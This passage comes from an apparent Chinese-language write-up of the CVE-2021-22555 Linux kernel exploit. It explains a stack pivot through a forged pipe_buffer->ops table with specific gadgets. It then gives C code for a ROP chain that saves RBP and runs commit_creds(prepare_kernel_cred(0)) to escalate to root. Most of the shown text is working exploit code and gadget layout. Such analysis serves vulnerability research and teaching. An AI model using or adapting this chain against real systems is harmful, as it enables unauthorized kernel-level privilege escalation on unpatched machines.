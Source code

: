 ![11](/images/posts/CVE-2021-22555/11.png)

**ROP流程**：调用`pipe_buffer->ops`时，rsi指向`pipe_buffer`地址，所以需构造ROP将RSI赋值给RSP

- （1）没有找到类似`mov rsp, rsi`和`push rsi; pop rsp`的gadget，只能先伪造`pipe_buffer->ops`函数表，`pipe_buffer->ops->release`指向gadget—`push rsi; jmp qword ptr [rsi + 0x39]`

- （2）在`RSI+0x39`处（`pipe_buffer+0x39`处）放置gadget—`pop rsp; ret;`

- （3）在`RSI`处（`pipe_buffer`处）放置gadget—`add rsp, 0xd0; ret; `    避免破坏`pipe_buffer+0x10 - 0x18`

- （4）在`RSI+0xd8`处（`pipe_buffer+0xd8`处）继续布置ROP链

- （5）先将RBP保存到`RSI+0x2b0`处（`pipe_buffer+0x2b0`处），注意，`enter 0, 0` 指令等同于 `push rbp; mov rbp, rsp`	—— `rbp=rsp`，`enter 8, 0` 指令等同于 `push rbp; mov rbp, rsp; sub rsp, 8`

  ```c
    // Save RBP at scratchpad_addr.
    *rop++ = kbase_addr + ENTER_0_0_POP_RBX_POP_R12_POP_RBP_RET;                  // enter 0, 0 ; pop rbx ; pop r12 ; pop rbp ; ret 
    *rop++ = scratchpad_addr; // R12
    *rop++ = 0xDEADBEEF;      // RBP
    *rop++ = kbase_addr + MOV_QWORD_PTR_R12_RBX_POP_RBX_POP_R12_POP_RBP_RET;      // mov qword ptr [r12], rbx; pop rbx; pop r12; pop r13; pop rbp; ret;
    *rop++ = 0xDEADBEEF; // RBX
    *rop++ = 0xDEADBEEF; // R12
    *rop++ = 0xDEADBEEF; // R13
    *rop++ = 0xDEADBEEF; // RBP
  ```

- （6）执行`commit_creds(prepare_kernel_cred(0))`提权

  ```c
    // commit_creds(prepare_kernel_cred(NULL))
    *rop++ = kbase_addr + POP_RDI_RET;                                            // pop rdi; ret;
    *rop++ = 0; // RDI
    *rop++ = kbase_addr + PREPARE_KERNEL_CRED;
    *rop++ = kbase_addr + POP_RCX_RET;                                            // pop rcx; ret;
    *rop++ = 4; // RCX
    *rop++ = kbase_addr + CMP_RCX_4_JNE_POP_RBP_RET;                              // cmp rcx, 4; jne 0x274579; pop rbp; ret; 
    *rop++ = 0xDEADBEEF; // RBP
    *rop++ = kbase_addr + MOV_RDI_RAX_JNE_XOR_EAX_EAX_RET;                        // mov rdi, rax; jne 0x788d41; xor eax, eax; ret;
    *rop++ = kbase_addr + COMMIT_CREDS;
  ```
